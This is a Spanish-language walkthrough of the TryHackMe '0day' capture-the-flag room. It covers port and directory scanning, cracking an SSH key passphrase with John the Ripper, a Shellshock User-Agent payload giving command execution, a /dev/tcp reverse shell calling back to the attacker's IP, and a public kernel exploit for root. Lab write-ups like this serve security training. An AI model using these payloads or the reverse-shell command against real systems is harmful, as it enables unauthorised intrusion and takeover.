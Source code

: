 ```yaml
---
title: "0day | TryHackMe"
date: 2023-09-08T02:01:58+05:30
description: "0day es una sala para principiantes-intermedios en Tryhackme.  El objetivo final es obtener el indicador de usuario y raíz."
tags: [tryhackme, shellshock, kernel-exploit]
---
```



## Escaneo de puertos

Usamos nmap para verificar los puertos abiertos

```bash
$ nmap -p- -Pn -n  -sVC --min-rate 2000  10.10.125.117

Nmap scan report for 10.10.125.117
Host is up (0.29s latency).
Not shown: 65507 closed tcp ports (reset), 26 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 5720823c62aa8f4223c0b893996f499c (DSA)
|   2048 4c40db32640d110cef4fb85b739bc76b (RSA)
|   256 f76f78d58352a64dda213c5547b72d6d (ECDSA)
|_  256 a5b4f084b6a78deb0a9d3e7437336516 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## Web

Al tener el puerto 80 abierto, vemos su web


{{< figure src="https://i.imgur.com/SBtAtmk.png">}}

no hay nada interesante en el código fuente, asi que hacemos un escaneo de directorios con `dirsearch`


```bash
$ dirsearch -u http://10.10.125.117 -t 90

[20:57:03] 200 -    0B  - /admin/?/login
[20:57:04] 200 -    0B  - /admin/                                           
[20:57:04] 200 -    0B  - /admin/index.html                                 
[20:57:18] 301 -  314B  - /backup  ->  http://10.10.125.117/backup/         
[20:57:18] 200 -    2KB - /backup/                                          
[20:57:23] 403 -  288B  - /cgi-bin/                                         
[20:57:23] 301 -  315B  - /cgi-bin  ->  http://10.10.125.117/cgi-bin/       
[20:57:23] 200 -   13B  - /cgi-bin/test.cgi                                 
[20:57:26] 301 -  311B  - /css  ->  http://10.10.125.117/css/               
[20:57:42] 301 -  311B  - /img  ->  http://10.10.125.117/img/               
[20:57:43] 200 -    3KB - /index.html                                       
[20:57:46] 200 -  928B  - /js/                                              
[20:58:14] 200 -   38B  - /robots.txt                                       
[20:58:15] 403 -  294B  - /server-status/                                   
[20:58:15] 403 -  293B  - /server-status                                    
[20:58:15] 301 -  314B  - /secret  ->  http://10.10.125.117/secret/         
[20:58:15] 200 -  109B  - /secret/


```

Primero revisamos la dirección `http://10.10.125.117/backup/` y encontramos una llave `rsa`



{{< figure src="https://i.imgur.com/QDLOHmr.png">}}

la guardamos y probamos a descifrarla con fuerza bruta, en este caso usaremos `John-the-ripper`

```bash

$ ssh2john key > key.hash
$ john key.hash

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
No password hashes left to crack (see FAQ)

$ john key.hash --show
key:letmein

1 password hash cracked, 0 left
```

Ya tenemos la password, ahora viendo la pagina de inicio vemos un nombre el nombre ryan, probamos ese usuario


```bash
$ chmod 600 key
$ ssh -i key ryan@10.10.125.117

Enter passphrase for key 'key': 
sign_and_send_pubkey: no mutual signature supported
ryan@10.10.125.117's password:


```

Y no funciono, vemos los demás directorios, em especial este `http://10.10.125.117/cgi-bin/test.cgi`

## Shellshock

Shellshock es una vulnerabilidad asociada al CVE-2014-6271 que salió el 24 de septiembre de 2014 y afecta a la shell de Linux “Bash” hasta la versión 4.3. Esta vulnerabilidad permite una ejecución arbitraria de comandos. [Ver más](https://deephacking.tech/shellshock-attack-pentesting-web/)


```bash
$ curl -X GET http://10.10.125.117/cgi-bin/test.cgi  -H "User-Agent: () { :;}; echo; /bin/bash -c  id" -i  
HTTP/1.1 200 OK
Date: Sat, 09 Sep 2023 02:41:10 GMT
Server: Apache/2.4.7 (Ubuntu)
Transfer-Encoding: chunked

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Pasamos comandos a través del User-Agent y como vemos tenemos un `RCE`


## Reverse Shell


```bash
$ curl -X GET http://10.10.125.117/cgi-bin/test.cgi  -H "User-Agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.2.55.245/443 0>&1" -i

$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.125.117] 38734
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ 

```

Listamos los archivos dentro del usuario ryan, tenemos permisos de lectura en el archivo `user.txt`

```bash
www-data@ubuntu:/home/ryan$ ls -la
ls -la
total 28
drwxr-xr-x 3 ryan ryan 4096 Sep  2  2020 .
drwxr-xr-x 3 root root 4096 Sep  2  2020 ..
lrwxrwxrwx 1 ryan ryan    9 Sep  2  2020 .bash_history -> /dev/null
-rw-r--r-- 1 ryan ryan  220 Sep  2  2020 .bash_logout
-rw-r--r-- 1 ryan ryan 3637 Sep  2  2020 .bashrc
drwx------ 2 ryan ryan 4096 Sep  2  2020 .cache
-rw-r--r-- 1 ryan ryan  675 Sep  2  2020 .profile
-rw-rw-r-- 1 ryan ryan   22 Sep  2  2020 user.txt
www-data@ubuntu:/home/ryan$ cat user.txt
cat user.txt
THM{******************r0ckz}
www-data@ubuntu:/home/ryan$ 


```


## Root

Después de un rato de buscar scripts, la vulnerabilidad estaba muy cerca, usamos el comando `uname -a` y vemos que la version del kernel es vulnerable


```bash
www-data@ubuntu:/home/ryan$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux


```

Hay un exploit del kernel disponible públicamente. Aquí está el enlace para el [exploit](https://www.exploit-db.com/exploits/37292)

Descargue el exploit a la máquina local y transfiéralo a la máquina remota. Intenté ejecutar el exploit pero hay algo extraño... arroja un error. 

```bash
www-data@ubuntu:/tmp$ gcc ofs.c -o ofs
gcc ofs.c -o ofs
gcc: error trying to exec 'cc1': execvp: No such file or directory

```

Para solucionar este problema, necesitamos alinear nuestra variable PATH con una PATH estándar de Ubuntu, lo cual hacemos con el siguiente comando

```bash
www-data@ubuntu:/tmp$ echo $PATH
echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
www-data@ubuntu:/tmp$ export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
<t PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.       
www-data@ubuntu:/tmp$ gcc ofs.c -o ofs
gcc ofs.c -o ofs


```

Ya con eso, es solo ejecutar el exploit


```bash
www-data@ubuntu:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# cat /root/root.txt
THM{g************d}


```
